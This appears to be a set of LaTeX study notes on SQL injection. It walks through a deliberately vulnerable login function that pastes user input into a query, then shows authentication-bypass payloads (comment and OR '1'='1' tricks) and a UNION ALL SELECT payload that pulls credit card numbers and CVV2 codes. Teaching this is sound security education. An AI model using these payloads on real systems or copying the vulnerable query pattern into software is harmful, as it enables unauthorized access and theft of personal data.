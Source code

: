 \documentclass{article}
\begin{document}
\subsubsection{Breaking authentication}
Say we have the following code, server side:
\begin{lstlisting}[language=Java]
public void login(String username, String password){
	SqlCommand cmd= new SqlCommand(String.Format(
		"SELECT * FROM Users
		WHERE username='{0}' AND password='{1}';",
		username, password);
	SqlDataReader reader = cmd.ExecuteReader();
	if(reader.HasRows()){
		grantAuthentication();
	}else{
		rejectAuthentication();
	}
}
\end{lstlisting}
The expected behaviour whould be for example the user inserting username="matteosecco" and password="s3cre3t!", which would result in the following query:
\begin{lstlisting}[language=SQL, showspaces=false]
SELECT * FROM Users
WHERE username='matteosecco' AND password='s3cr3t!';
\end{lstlisting}
Instead, an attacker could type "matteosecco';--" as username and anything (say "lol") as password. As "--" is a comment in sql, the resulting query would be:
\begin{lstlisting}[language=SQL]
SELECT * FROM Users
WHERE username='matteosecco';--' AND password='lol';
\end{lstlisting}
Allowing the attacker to login even without knowing the password! \\
But it can be even worse: the attacker may use "' OR '1'='1';--" as password, effectively bypassing the username too:
\begin{lstlisting}[language=SQL]
SELECT * FROM Users
WHERE username='' OR '1'='1';--' AND password='lol'
\end{lstlisting}

\subsubsection{Loading data from other tables}
Suppose the server somewhere returns the result of the following query, where the string is a user parameter:
\begin{lstlisting}[language=SQL]
SELECT name, phone, address FROM Users
WHERE Id='userinput';
\end{lstlisting}
An attacker could obviously do
\begin{lstlisting}[language=SQL]
SELECT name, phone, address FROM Users
WHERE Id='' OR '1'='1';--';
\end{lstlisting}
To retrieve the data of all Users. But a more interesting injection allows to load the content of other tables: say the input is "' UNION ALL SELECT name, creditCardNumber, CCV2 from CreditCardTable;--". The resulting query would be:
\begin{lstlisting}[language=SQL]
SELECT name, phone, address FROM Users
WHERE Id='' UNION ALL SELECT name, creditCardNumber, CCV2 from CreditCardTable;--';
\end{lstlisting}
And it would result in returning all the credit card infos stored! (assuming the union works $\rightarrow$ the column names/forats are compatible
\end{document}
